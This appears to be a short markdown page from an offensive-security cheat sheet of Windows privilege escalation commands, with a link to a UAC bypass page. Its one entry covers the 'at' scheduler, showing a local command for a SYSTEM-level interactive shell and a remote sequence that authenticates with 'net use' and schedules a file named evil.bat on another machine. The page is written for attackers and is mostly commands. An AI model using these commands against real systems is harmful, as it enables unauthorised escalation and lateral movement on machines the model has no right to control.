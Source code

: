 # Windows Privilege Escalation Commands

Command that can be executed from the context of a shell prompt that help escalate or increase attacker privilege of the target.

  * [UAC](uac.md) - How to bypass UAC.

# General Commands
### at (Scheduler)
 * **Command with arguments**: `at [TIME] [cmd]`
 * **Description**: This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.
 * **Examples**: 
    * Locally - `at 13:20 /interactive cmd`
    * Remotely - From http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607
         * `net use \\[computername|IP] /user:DOMAIN\username password`
         * `net time \\[computername|IP]`
         * `at \\[computername|IP] 13:20 c:|temp\evil.bat`
